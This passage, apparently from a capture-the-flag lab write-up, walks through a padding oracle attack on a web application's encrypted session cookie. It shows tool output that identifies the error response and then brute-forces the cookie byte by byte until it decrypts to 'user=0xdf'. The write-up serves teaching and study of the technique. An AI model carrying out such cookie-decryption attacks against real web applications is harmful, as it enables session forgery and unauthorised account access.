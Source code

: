 ```
The following response signatures were returned:
-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     16378   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended:

```

In this case, number 1 returns a 200 (the page) for one of the cookies, and number 2 returns a 302 to `logout.php` for the other 255 cookies. It’s asking which is the error (and suggesting 2). I agree, so I’ll enter 2. Now it will continue brute-forcing the bytes of the cookie to get the plaintext:

```

NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (188/256) [Byte 8]
[+] Success: (89/256) [Byte 7]
[+] Success: (24/256) [Byte 6]
[+] Success: (168/256) [Byte 5]
[+] Success: (78/256) [Byte 4]
[+] Success: (174/256) [Byte 3]
[+] Success: (73/256) [Byte 2]
[+] Success: (18/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 5b4f1f86ec7e9568
[+] Intermediate Bytes (HEX): e6b054b75ceba545
[+] Plain Text: user=0xd
*** Starting Block 2 of 2 ***

[+] Success: (146/256) [Byte 8]
[+] Success: (112/256) [Byte 7]
[+] Success: (134/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (124/256) [Byte 4]
[+] Success: (226/256) [Byte 3]
[+] Success: (177/256) [Byte 2]
[+] Success: (203/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): c7dce25292e93514
[+] Intermediate Bytes (HEX): 3d481881eb79926f
[+] Plain Text: f
-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=0xdf

[+] Decrypted value (HEX): 757365723D3078646607070707070707

[+] Decrypted value (Base64): dXNlcj0weGRmBwcHBwcHBw==
-------------------------------------------------------

```

